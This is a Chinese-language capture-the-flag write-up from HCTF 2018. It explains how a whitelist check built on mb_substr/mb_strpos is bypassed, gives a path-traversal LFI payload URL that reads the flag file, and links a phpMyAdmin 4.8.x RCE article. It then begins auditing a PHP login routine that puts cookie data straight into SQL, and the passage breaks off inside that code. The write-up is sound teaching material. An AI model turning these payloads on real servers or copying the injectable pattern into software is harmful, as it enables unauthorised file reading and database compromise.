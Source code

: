 一个Phpmyadmin特定漏洞：https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/

**mb_substr(str,start,length,[encoding])**  截取字符串，从start 开始，截取多少长度。

**mb_strpos(haystack,needle,[offset,encoding])** 查找字符串在另一个字符串出现的位置，heystack是被检查的字符串。

mb_strpos($_page . '?', '?')   相当于传入的参数首先和？组合，然后再检查首次问号出现的位置。

```php
$_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
```

加入传入的参数为source.php. 放入到这个函数中， mb_strpos会编程(source.php?,'?') 文件即返回截取长度为”source.php“。

但是，如果我们构造的是 file=source.php?./../../

mb_strpos会编程(source.php?../../../?,'?') 文件即返回截取长度为”source.php“, 这样就可以通过：

```php
if (in_array($_page, $whitelist)) {
                return true;
            }
```

这里只是做检查，没有对$_page做任何改变。

构造payload为：

```html
http://warmup.2018.hctf.io/index.php?file=hint.php?/../../../../../ffffllllaaaagggg
```

相当于hint.php?/ 当成了一个目录，但是在检测的时候，已经绕过了白名单的限制。导致LFI漏洞。



### kzone

HTCF有一个特点，即有些题可以通过/www.zip找到源码，然后代码审计挖漏洞。

这题同样也是一个代码审计题，这题的源码可以在网上找的到，分析之后可以发现。整个代码，只变动了safe部分以及member的整体。

```php
<?php
if (!defined('IN_CRONLITE')) exit();
$islogin = 0;
if (isset($_COOKIE["islogin"])) {
    if ($_COOKIE["login_data"]) {
        $login_data = json_decode($_COOKIE['login_data'], true);
        $admin_user = $login_data['admin_user'];
        $udata = $DB->get_row("SELECT * FROM fish_admin WHERE username='$admin_user' limit 1");
        if ($udata['username'] == '') {
            setcookie("islogin", "", time() - 604800);
            setcookie("login_data", "", time() - 604800);
        }
        $admin_pass = sha1($udata['password'] . LOGIN_KEY);
        if ($admin_pass == $login_data['admin_pass']) {
            $islogin = 1;
        } else {
            setcookie("islogin", "", time() - 604800);
            setcookie("login_data", "", time() - 604800);
        }
    }
}
if (isset($_SESSION['islogin'])) {
    if ($_SESSION["admin_user"]) {
        $admin_user = base64_decode($_SESSION['admin_user']);
        $udata = $DB->get_row("SELECT * FROM fish_admin WHERE username='$admin_user' limit 1");
```